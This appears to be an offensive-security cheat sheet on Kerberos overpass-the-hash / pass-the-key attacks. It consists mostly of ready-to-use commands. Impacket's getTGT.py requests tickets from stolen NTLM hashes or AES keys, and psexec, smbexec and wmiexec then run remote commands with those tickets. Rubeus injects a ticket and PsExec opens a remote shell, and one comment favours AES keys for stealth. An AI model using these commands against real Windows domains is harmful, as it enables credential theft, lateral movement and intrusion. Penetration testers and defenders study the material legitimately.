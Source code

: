 # Overpass The Hash/Pass The Key (PTK)

## Overpass The Hash/Pass The Key (PTK)

By using [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```shell
# Request the TGT with hash
python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
# Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
# Request the TGT with password
python getTGT.py <domain_name>/<user_name>:[password]

# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py rastalabs.local/jack@10.10.10.1 -k -no-pass
python smbexec.py rastalabs.local/jack@10.10.10.1 -k -no-pass
python wmiexec.py rastalabs.local/jack@10.10.10.1 -k -no-pass
```

With [Rubeus](https://github.com/GhostPack/Rubeus) and [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```shell
# Ask and inject the ticket
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt

# Execute a cmd in the remote machine
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

* Impacket’s `psexec.py` offers `psexec` like functionality. This will give you an interactive shell on the Windows host. `psexec.py` also allows using Service Tickets, saved as a `ccache` file for Authentication. It can be obtained via Impacket’s `GetST.py`
* It is much easier to use variables&#x20;

```
target=10.10.10.1
domain=test.local
username=john
export KRB5CCNAME=/full/path/to/john.ccache
python3 psexec.py $domain/$username@$target -k -no-pass
```
